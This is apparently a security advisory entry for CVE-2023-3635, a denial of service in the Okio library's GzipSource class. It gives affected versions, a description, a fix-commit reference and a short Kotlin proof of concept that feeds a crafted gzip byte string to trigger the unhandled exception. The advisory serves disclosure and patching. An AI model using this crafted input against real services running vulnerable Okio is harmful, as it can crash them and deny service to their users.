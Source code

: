 ```yaml
---
description: CVE-2023-3635, MEDIUM, Okio GzipSource unhandled exception Denial of Service
title: Okio GzipSource unhandled exception Denial of Service
date_published: "2023-07-12"
last_updated: "2023-07-12"
xray_id: XRAY-523195
vul_id: CVE-2023-3635
cvss: 5.9
severity: medium
discovered_by: 
type: vulnerability

---
```


## Summary

Okio GzipSource unhandled exception Denial of Service

## Component

com.squareup.okio:okio

## Affected versions

(,3.4.0)

## Description

GzipSource does not handle an exception that might be raised when parsing a malformed gzip buffer. This may lead to denial of service of the Okio client when handling a crafted GZIP archive, by using the GzipSource class.

## PoC

```kot
val gzBuf: Buffer = Buffer()
    try {
        val gzByteString: ByteString = ("1f8b41ff424242424343ffff").decodeHex()
        gzBuf.write(gzByteString)
        val gz: GzipSource = GzipSource(gzBuf)
        val sinkBuf: Buffer = Buffer()
        gz.read(sinkBuf, 5)
    }
    catch(e: IOException) {
        println("got error: " + e.toString())
    }
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b](https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b)

